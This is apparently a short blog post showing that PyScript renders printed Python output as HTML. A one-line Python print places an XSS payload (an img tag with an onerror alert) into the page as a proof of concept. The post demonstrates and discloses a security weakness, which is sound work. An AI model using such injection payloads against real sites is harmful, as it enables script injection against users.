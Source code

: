 # Run XSS in Your browser
## With additional steps

## Intro
Sometime ago, I mean week, Anaconda, release the PyScript https://github.com/pyscript/pyscript. Simplifing: The Python in browser, with HTML and JavaScript. Javascript and python, in the browser,. What can possibly can go wrong. 

> :info: It's fun post, pyscript is great idea, but as everything, security should be some concern. 

## PyScript XSS
Let's check how it works:
index.html
```
<!DOCTYPE html>
<html>
    <head>
        <link rel="stylesheet" href="https://pyscript.net/alpha/pyscript.css" />
        <script defer src="https://pyscript.net/alpha/pyscript.js"></script>
    </head>
    <body>
        <py-script src="/test.py"></py-script>
    </body>
</html>
```
test.py
```
print('as<img src=x onerror=alert(1)>df')
```
and here we are, with XSS. 
 ![asdf](https://github.com/schreddies/schreddies.github.io/blob/master/Screenshot%202022-05-16%20at%2013.14.25.png)

## Outro
Make no mistake, The PyScript, is brilliant product! Just don't forget about security. 
